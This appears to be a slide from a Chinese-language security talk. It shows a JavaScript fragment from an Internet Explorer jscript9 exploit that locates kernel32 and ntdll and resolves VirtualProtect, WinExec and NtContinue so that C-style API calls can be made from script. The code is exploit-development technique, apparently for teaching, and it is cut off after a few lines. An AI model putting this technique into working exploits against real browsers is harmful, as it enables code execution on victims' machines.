

可以像写 C 代码一样在 JS 中使用这些函数
var jscript9 = GetBaseAddrByPoiAddr(jsobj);
var kernel32 = GetModuleFromImport("kernel32.dll", jscript9);
var ntdll    = GetModuleFromImport("ntdll.dll", kernel32);
var VirtualProtect = GetProcAddress(kernel32, "VirtualProtect");
var WinExec        = GetProcAddress(kernel32, "WinExec");
var NtContinue     = GetProcAddress(ntdll, "NtContinue");
…